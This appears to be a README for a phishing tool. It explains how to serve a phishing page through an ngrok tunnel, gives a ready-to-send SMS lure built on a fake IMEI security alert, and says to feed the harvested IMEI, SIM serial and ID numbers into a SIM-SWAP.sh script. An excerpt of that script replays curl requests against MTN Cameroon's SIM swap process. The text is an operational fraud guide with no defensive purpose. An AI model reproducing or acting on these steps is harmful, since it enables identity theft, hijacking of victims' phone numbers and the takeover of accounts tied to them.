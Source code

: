 Here's How to Expose the phish.html to the internet from your localhost 
Install ngrok. You can download the ngrok client for your operating system from the ngrok website: https://ngrok.com/download.
Start ngrok. In your terminal, navigate to the directory where you installed ngrok and run the following command:
ngrok http 8080
This will start ngrok and create a tunnel to your local web server(localhost), which is listening on port 8080.
3. Open the ngrok dashboard. In your browser, go to the ngrok dashboard: https://dashboard.ngrok.com/. You should see a list of tunnels that ngrok has created.
4. Find the ngrok tunnel for your local web server(localhost:8080). The tunnel name will start with http:// or https://.
5. Open the ngrok tunnel URL in your browser. This will open your HTML file in your browser.
6. Send the ngrok tunnel URL to your target's Phone Number , while crafting a really good phishing message . The Message Should Look Something Like This
"""
    Your cell phone's IMEI code has been flagged for suspicious activity.
    Please click on the link below to verify your identity and update your security settings.     
    "https://ngrok-URL-should-be-here" "(Send the Ngrok link to the Victim , And Wait For The Victims IMEI, SIM Serial Number, and ID Card Number ..)..
    there Info will Be dispalyed in the terminal , under the ngrok URL ..
    And That's what You'll use in the SIM-SWAP.sh bash script( Input the phished Details , Under these bash Function   function execute_curl_commands() {
  # Get the curl commands
  curl_commands=$(
    get_curl_command 'Select the option for SIM swap' "$cookie" "$token"
    get_curl_command 'Enter your old MTN Cameroon phone number' "$cookie" "$token"
    get_curl_command 'Enter your National ID card number or passport number' "$cookie" "$token"
    get_curl_command 'Enter the IMEI number of your phone' "$cookie" "$token"
    get_curl_command 'Enter the serial number of your old SIM card' "$cookie" "$token"
    get_curl_command 'Click on the "Submit" button' "$cookie" "$token"
  )
) to do the sim swap 
"""
Then Run The Script , with the provided details , to complete the Sim swap ..
Now, anyone on the internet can access your HTML file by visiting the ngrok tunnel URL.

Here are some additional things to keep in mind:

The port number that you specify in the ngrok http command must be the same port number that your local web server is listening on.
If you are using a firewall, you may need to configure it to allow traffic to the port number that you are using.
The ngrok tunnel will only be active for as long as ngrok is running. If you want to keep the tunnel active, you can run ngrok in the background.

Happy Hacking ..
